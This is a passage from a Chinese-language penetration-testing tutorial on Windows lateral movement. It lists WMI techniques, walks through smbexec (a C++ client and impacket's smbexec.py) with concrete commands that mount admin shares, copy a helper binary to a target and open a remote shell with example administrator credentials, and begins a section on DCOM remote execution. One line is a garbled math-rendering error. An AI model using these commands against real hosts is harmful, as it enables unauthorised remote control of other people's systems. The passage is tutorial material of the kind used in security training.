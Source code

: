 1，基本命令
2，impacket工具包中的wmiexec
3，wmiexec.vbs
4，invoke-wmiCommand
5，invoke-WMIMethod

# 7\. Smbexec的使用

1，c++版smbexec

Smbexec可以通过文件共享（admin$、c$、ipc$、d$）在远程系统中执行命令。
1，c++版smbexec
工具说明：
Test.exe：客户端程序
Execserver.exe：目标系统中的辅助程序
常见smbexec命令：
Test.exe ipaddress username password command netshare

使用方法：
将execserver.exe上传到目标系统的c:\\windows\\目录下。在命令行环境中执行如
下命令：
1，Net use \\192.168.150.12\\c$ “tys@123!” /user:administrator
2，Copy execserver.exe \\192.168.150.12\\c$\windows\ 3，test.exe 192.168.150.12 administrator tys@123! Whoami c$

KaTeX parse error: Undefined control sequence: \\windows at position 1: \\̲w̲i̲d̲o̲w̲s̲\ 3，test.exe 19…

注意；在使用smbexec时，目标系统共享必须是打开的（c$、ipc$、admin$）

2，impacket工具包中的smbexec.py
在kali中命令行环境中执行命令,列出工具及用法：
smbexec.py
使用smbexec.py获取远程主机的shell
Python3 smbexec.py tys1\\administrator:tys@123!@192.168.63.131

3，linux跨windows远程执行命令

# 8\. DCOM在远程系统中的使用

1，通过本地DCOM执行命令
2，使用DCOM在远程机器上执行命令

DCOM（分布式组件对象模型）是微软的一系列概念和程序接口。通过DCOM，客户端程序对象能够向网络中的另一台计算机上的服务程序对象发送请求。攻击者在进行横向渗透时，如果要在远程主机中执行命令或者payload，除了会使用前面讲过的at、schtask、PsExec、WMI、smbexec、Powershell等，还会使用网络环境中部署的大量诸如IPS、流量分析等系统。

1，通过本地DCOM执行命令
1），获取DCOM程序列表
3.0及以上在powershell中运行命令：Get-Ciminstance
win32_DCOMApplication
2.0则运行命令：
Get-WmiObject –Namespace ROOT\\CIMV2 –Class
Win32_DCOMApplication

